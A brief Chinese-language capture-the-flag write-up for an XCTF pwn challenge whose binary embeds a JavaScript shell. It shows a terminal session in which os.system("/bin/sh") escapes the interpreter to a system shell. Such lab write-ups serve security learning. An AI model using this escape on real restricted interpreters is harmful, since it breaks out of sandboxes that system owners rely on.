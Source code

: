 本题引入了js库，估计为js语言解释器

本题考察jsshell
它的os.system()很有用

dudu@kali:~/桌面/learn/pwn/xctf/进阶/money$ ./js
js> ls
typein:1:1 ReferenceError: ls is not defined
Stack:
  @typein:1:1
js> os.system("/bin/sh")
$ ls
js  libnspr4.so  libplc4.so  libplds4.so
$ 
